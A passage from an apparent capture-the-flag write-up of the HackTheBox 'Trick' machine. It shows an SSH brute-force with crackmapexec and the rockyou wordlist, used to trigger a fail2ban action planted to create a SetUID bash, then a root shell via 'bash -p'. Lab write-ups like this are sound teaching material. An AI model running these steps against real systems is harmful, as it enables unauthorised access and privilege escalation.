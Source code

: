 

    michael@trick:/etc/fail2ban$ sudo /etc/init.d/fail2ban restart
    [ ok ] Restarting fail2ban (via systemctl): fail2ban.service.



Finally, I need to trigger the ban:



    oxdf@hacky$ crackmapexec ssh trick.htb -u oxdf -p /usr/share/wordlists/rockyou.txt 
    SSH         trick.htb       22     trick.htb        [*] SSH-2.0-OpenSSH_7.9p1 Debian-10+deb10u2
    SSH         trick.htb       22     trick.htb        [-] oxdf:123456 Authentication failed.
    SSH         trick.htb       22     trick.htb        [-] oxdf:12345 Authentication failed.
    SSH         trick.htb       22     trick.htb        [-] oxdf:123456789 Authentication failed.
    SSH         trick.htb       22     trick.htb        [-] oxdf:password Authentication failed.
    SSH         trick.htb       22     trick.htb        [-] oxdf:iloveyou Authentication failed.
    SSH         trick.htb       22     trick.htb        [-] oxdf:princess Authentication failed.                         
    SSH         trick.htb       22     trick.htb        [-] oxdf:1234567 Authentication failed.
    SSH         trick.htb       22     trick.htb        [-] oxdf:rockyou Authentication failed.
    SSH         trick.htb       22     trick.htb        [-] oxdf:12345678 Authentication failed.
    SSH         trick.htb       22     trick.htb        [-] oxdf:abc123 Authentication failed.
    SSH         trick.htb       22     trick.htb        [-] oxdf:nicole Authentication failed.
    SSH         trick.htb       22     trick.htb        [-] oxdf:daniel Authentication failed.
    SSH         trick.htb       22     trick.htb        [-] oxdf:babygirl Authentication failed.
    SSH         trick.htb       22     trick.htb        [-] oxdf:monkey Authentication failed.
    SSH         trick.htb       22     trick.htb        [-] oxdf:lovely Authentication failed.
    SSH         trick.htb       22     trick.htb        [-] oxdf:jessica Authentication failed.
    SSH         trick.htb       22     trick.htb        [-] oxdf:654321 Authentication failed.
    SSH         trick.htb       22     trick.htb        [-] oxdf:michael Authentication failed.
    SSH         trick.htb       22     trick.htb        [-] oxdf:ashley Authentication failed.
    SSH         trick.htb       22     trick.htb        [-] oxdf:qwerty Authentication failed.  
    ...[snip]...



I'll notice that this time I don't get blocked. That's because even when
the `actionban` runs, it doesn't block my IP in `iptables`, but rather
creates a SetUID `bash`. That file exists:



    michael@trick:/etc/fail2ban$ ls -l /tmp/0xdf
    -rwsrwxrwx 1 root root 1168776 Oct 15 18:17 /tmp/0xdf



To trigger this, I'll need to run it with `-p` (see [this
video](https://www.youtube.com/watch?v=XvfpOIAMx6Y) for details on uid
vs euid and why I need `-p` for `bash`). That gives a shell (with
effective uid) as root:



    michael@trick:/etc/fail2ban$ /tmp/0xdf -p
    0xdf-5.0# id
    uid=1001(michael) gid=1001(michael) euid=0(root) groups=1001(michael),1002(security)



And from there I can read `root.txt`:



    0xdf-5.0# cat /root/root.txt
    3c3ef61f************************







